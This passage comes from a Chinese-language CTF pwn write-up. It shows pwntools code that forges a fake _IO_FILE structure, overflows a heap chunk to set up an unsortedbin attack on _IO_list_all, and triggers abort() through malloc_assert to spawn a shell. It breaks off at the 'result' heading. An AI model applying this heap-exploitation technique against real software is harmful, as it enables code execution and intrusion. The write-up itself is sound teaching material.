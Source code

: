 ```plain
payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)
```

伪造 fake IO 结构体，利用堆溢出将 unsorted bin chunk 的 size 修改成 0x61，bk 指针修改为 io\_list\_all-0x10，重新申请 chunk 时就会触发 unsortedbin attack，将\_IO\_list\_all 的值被改写为 main\_arena+88

[![](assets/1701606938-a757e941069abf21759130304f6d104e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201548-68d713f8-6a8b-1.png)

```plain
ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))
```

最后利用 malloc\_assert 一举两得，触发 unsortedbin attack 同时触发 abort() 刷新 IO 文件流 getshell

效果：
